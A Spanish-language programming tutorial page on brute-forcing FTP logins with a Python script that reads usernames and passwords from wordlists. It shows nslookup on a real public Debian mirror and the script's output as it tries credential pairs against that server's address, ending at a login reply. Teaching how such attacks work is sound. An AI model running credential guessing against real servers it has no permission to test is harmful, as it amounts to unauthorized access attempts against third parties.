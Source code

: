 - Por ejemplo, con el siguiente script podemos ejecutar un proceso de fuerza utilizando un diccionario de usuarios y contraseñas contra un servidor FTP.

- El objetivo es probar con todas las combinaciones posibles de usuario y contraseña hasta encontrar una con la cual establecer la conexión.

- En primera instancia **obtenemos la dirección del servidor FTP con el comando nslookup:**

    ```bash	
    nslookup ftp.be.debian.org
    Server:         10.255.255.254
    Address:        10.255.255.254#53

    Non-authoritative answer:
    Name:   ftp.be.debian.org
    Address: 195.234.45.114
    Name:   ftp.be.debian.org
    Address: 2a05:7300:0:100:195:234:45:114
    ```

- [Código de ejemplo](/Unidad_9_Conexiones_con_servidores_FTP_SFTP_SSH_desde_Python/7-Fuerza_Bruta.py)

    - Aquí estamos usando la función `fuerza_bruta()`para verificar cada combinación de nombre de ususario y contraseña que estamos leyendo de 2 archivos de texto llamados `usuarios.txt` y `passwords.txt`.

    ```bash
    $ python3 ftp_fuerza_bruta.py
    Introduce IP de un servidor FTP:195.234.45.114
    [*] Intentando conectar con el servidor FTP
    Error en el proceso de fuerza bruta con usuario usuario1
    y password usuario1

    [*] Intentando conectar con el servidor FTP
    Error en el proceso de fuerza bruta con usuario usuario1
    y password usuario2

    [*] Intentando conectar con el servidor FTP
    Error en el proceso de fuerza bruta con usuario usuario1
    y password anonymous

    [*] Intentando conectar con el servidor FTP
    Error en el proceso de fuerza bruta con usuario admin
    y password usuario1

    [*] Intentando conectar con el servidor FTP
    Error en el proceso de fuerza bruta con usuario admin
    y password usuario2

    [*] Intentando conectar con el servidor FTP
    Error en el proceso de fuerza bruta con usuario admin
    y password anonymous

    [*] Intentando conectar con el servidor FTP
    230-Welcome to mirror.as35701.net.
    230-

